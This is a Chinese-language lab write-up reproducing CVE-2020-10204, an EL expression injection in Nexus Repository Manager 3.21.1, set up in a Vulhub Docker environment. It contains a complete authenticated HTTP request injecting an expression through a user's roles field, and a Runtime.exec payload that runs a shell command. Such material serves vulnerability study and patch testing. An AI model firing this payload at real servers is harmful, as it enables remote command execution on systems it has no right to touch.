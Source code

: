 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
Accept: */*
Origin: http://your-vps-ip:8081
Referer: http://your-vps-ip:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=9c8acd44-38cb-4a2c-a045-96161193dbc2

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

![image-20220228161022019](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281610135.png)

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令：

![image-20220228161317185](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281613307.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220228161302851](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281613913.png)

